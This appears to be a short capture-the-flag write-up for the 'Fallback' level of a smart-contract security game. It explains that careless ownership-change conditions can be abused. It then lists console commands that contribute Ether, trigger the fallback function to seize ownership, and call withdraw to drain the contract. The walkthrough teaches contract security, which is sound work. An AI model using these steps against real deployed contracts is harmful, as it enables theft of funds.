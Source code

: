 ## 2. Fallback

The primary lesson here is that we should be mindful of the conditions we set in our contracts, and where we change ownership (or other crucial roles) based on said conditions and logic.

On a technical level, this level requires calling a contract function, unit conversion and sending Ether to contracts directly (to trigger the `receivable` function.) 

#### Solution

- `await contract.contribute({value: toWei("0.0001")})` to contribute `0.0001` ETH to the contract.
- ``` await web3.eth.sendTransaction({from: player,to:contract.address , value: toWei("0.00001")});``` to send eth to the contract in order to trigger the fallback function.
- `await contract.withdraw()` to drain the contract by sending all funds to `msg.sender`.